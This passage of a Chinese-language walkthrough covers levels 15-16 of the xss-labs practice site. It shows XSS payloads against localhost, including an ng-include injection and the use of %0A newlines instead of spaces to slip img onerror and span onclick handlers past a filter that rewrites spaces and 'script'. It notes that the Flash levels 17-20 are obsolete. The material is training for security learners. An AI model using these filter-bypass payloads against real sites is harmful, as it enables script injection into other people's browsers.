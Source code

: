 再举个例子，我们也可以这样注入：

```js
http://localhost/xss-labs/level15.php?src='./level1.php?name=<span onclick="alert()">H1</span>'
<span class="ng-include:'./level1.php?name=&lt;span onclick=&quot;alert()&quot;&gt;H1&lt;/span&gt;'"></span>
```



## 第 16 关：注入带事件属性的 html 标签

发送 Get 请求：`http://localhost/xss-labs/level16.php?keyword=<script>alert('hi')</script>`，然后右击查看网页源代码，发现 <center> 标签里面的内容被有被替换过的痕迹，如 `script`、`/` 均被替换成了 `&nbsp;`！

```html
<center><&nbsp;>alert('hi')<&nbsp;&nbsp;></center>
```

闭合绕过操作这里是不太可能了，来试下注入带有事件属性的 html 标签吧：

```js
http://localhost/xss-labs/level16.php?keyword=<img src=1 onerror=alert()>
```

发现注入失败！源码如下所示，又发现一个规律：即**`空格`也会被替换成 `&nbsp;`**！

```html
<center><img&nbsp;src=1&nbsp;onerror=alert()></center>
```

这导致之前所有的 payload 都失效了！怎么办呢？

答案：**HTML 中可使用换行符（`%0A`）来代替空格**！Ok，那么我们使用换行符（`%0A`）重新注入一下：

```html
http://localhost/xss-labs/level16.php?keyword=<img%0Asrc=1%0Aonerror=alert()>
```

发现注入成功！网页源码如下所示：

```html
<center><img
src=1
onerror=alert()></center><center>
```

再举个例子，我们也可以这样注入：

```html
http://localhost/xss-labs/level16.php?keyword=<span%0Aonclick="alert()">ClickIt</span>
<center><span
onclick="alert()">ClickIt<&nbsp;span></center>
```



## 第 17 ~ 20 关：❌

Level 17 到 Level 20 都是 Flash 的利用，现在 Flash 已经退出历史舞台了，所以这几关已经失去意义！

